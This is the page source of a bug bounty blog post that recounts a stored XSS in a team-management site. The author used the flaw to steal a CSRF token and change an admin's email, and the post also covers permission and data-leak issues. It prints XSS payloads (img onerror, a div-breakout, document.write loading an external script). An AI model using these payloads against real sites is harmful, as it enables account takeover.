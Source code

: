 ```yaml
---
layout: default
title: Stored XSS to CSRF 
description: There's much more to XSS than just an alert !
date:   2020-05-21 
date_only: May 21, 2020
permalink: /stored-xss-to-csrf/
reading_time: 6 minutes
image: /assets/images/stored-xss-to-csrf/poc.png
---
```

<head>
  <link rel="stylesheet" href="/assets/css/main1.css">
  <!-- Latest compiled and minified CSS -->
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">

  <!-- jQuery library -->
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>

  <!-- Popper JS -->
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.16.0/umd/popper.min.js"></script>

  <!-- Latest compiled JavaScript -->
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"></script>
  

  <title>{{ page.title }}</title>
  <style>
    .content{
        font-size: 20px;
    }
   
  </style>
</head>

<section id="one" class="wrapper style1">
  <div class="inner">
    
    <article class="feature left" style="background-color: white; color: black;">
        <center style="padding-bottom: 20px;">
            <h2 style="padding: 20px; color: black;"><b>{{ page.title }}</b></h2>
            <div style="color:#0067a3">
              {{ page.date_only }}
              <br />
              ~{{ page.reading_time }}
            </div>
            
        </center>
        <div class="content" style="padding:10px;">
            <p>
                There's almost no limit what you can do with XSS, stored XSS in particular, in most of the situations. It allows javascript code execution in the victim's browser. XSS is not just about popping an alert box and stealing cookies is just one method, which is decreasing because many websites have HttpOnly flag on their cookies which protects them. In that case, if you don't know exploiting it other than stealing cookies, even though your submission would be accepted, you could be missing out on high impacts, like account takeover. 
                <br ><br >

                I received an invite for a private program a few days back. It was a workflow management websites, where you could assign your team members project, and upload files, and other stuff with different levels of users. I decided to hack on it, as these kind of different user privileges super excites me due to the large scope of privilege escalation.

                So, I started browsing the site understanding it's functionality. Now, there was a project section, where users could keep their project private, or add some of their team members in it. There was a functionality to add comments to the project, and the members added in the project had the option to add like to the comment. But knowing the project ID, I was able to add likes to a project, which I was not a part of, and had no visibility permissions. I reported this, and I received a response stating that the project ID is not predictable, and status was changed to "Won't fix" and it got me only 5 points☹️

                Next, there was a functionality to search other users, by their username. The endpoint was something like 
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_request.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                I have stripped out a lot of other things for simplicity. This would return a response containing all the users whose name starts with "micha" like michaelben, michael etc.
                So the response was something like
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_response.png" alt="" height="30%" width="80%" />
            </center>
            <br ><br >
            <p>
                Again, the response contained a lot of other data, among which this was the most interesting ones. On a first glance, I thought this is leaking the address and mobile numbers of other team members, but later realised that they were actually visible on their profile.
                <br />
                Then the LIMIT parameter in the GET request caught my eyes, and I changed it to 1000. I got a hell lot of data regarding each of the team member. The response included the name of private documents uploaded by each user which was visible only to the user. Additionally, there were other details that the endpoint leaked such as private projects, and other information which were supposed to visible only to the particular user. 
                <br />
                On reporting this, I got a reply saying this was by design ! 😨
                Obviously, I couldn't do anything.
            </p>
            <br ><br >
            <p>
                I previously injected the XSS payload, <pre>"><img src onerror=alert(1)></pre> in one of the members name to test XSS, and it obviously didn't fire. I was just browsing using the admin account. I visited the member's profile with the payload. There was an option to deactivate the user. After deactivating, you receive a pop up saying "Deactivated {member name}". But when I deactivated this user, I got an invalid image symbol. I found this interesting. There are two possibilities which is mostly implemented in such a situation. One would be render the whole payload safely by some kind of filtering, and the other would be to completely remove the payload. But this removed only the tag , and so it loooked like <pre style="display: inline;">< img src=""></pre>. It was vulnerable to HTML and CSS injection, I could take down the whole page using <pre>< style>body{display: none}</style></pre>. But I was aiming XSS.

                I tried to bypass this, but I couldn't. I decided to look at the source code. I knew that it was parsing my HTML tags. The notification content was enclosed within a div tag. I immediately closed the div tag, and entered my payload. So the final payload was <pre>"></div><img src onerror=alert(document.domain)</pre>.

                Now when I deactivated the user with this payload, the payload fired. But I could not get the session cookies using this method, due to the HttpOnly flag. But I could get the CSRF token, using which I could change the admin email address. But again, since everything was against me, I was limited by the number of characters in the name where the payload must be injected. 

                So, I thought of referencing an external script to the page. I did <pre>document.getElementById("id").innerHTML = '< script src="http://localhost/alert.js"></script>'</pre>, where alert.js contained alert(document.domain), which would fire if the script was included. But it didn't. On more researching onto this, I found that scripts do not load in an already loaded page using the innerHTML method. Alternatively, using <pre>document.write("< script src='http://localhost/alert.js'></script>")</pre> could achieve it. I did that, and I got the alert. 
                Now just a simple POC.
            </p>
            <br ><br >
            <center>
                <img src="/assets/images/stored-xss-to-csrf/poc.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                <ul>
                    <li>Get the cookie string</li>
                    <li>Extract only the value of CSRF-TOKEN from the string</li>
                    <li>Send the POST request to change the email address with the CSRF-TOKEN in the header</li>
                </ul>
                Just don't stop with an alert box if you find XSS. It has a lot more potential. 
                <br>
                See you again in the next blog post :)
            </p>
        </div>
        Share: <a class="icon fa-twitter" target="_blank"
      href="https://twitter.com/intent/tweet?text=Check out {{ page.title }} by micha3lb3n at https://micha3lb3n.github.io{{ page.permalink }}" data-size="large" url="https://micha3lb3n.github.io/">
    Tweet</a>
        <br /><br />
        
    </article>
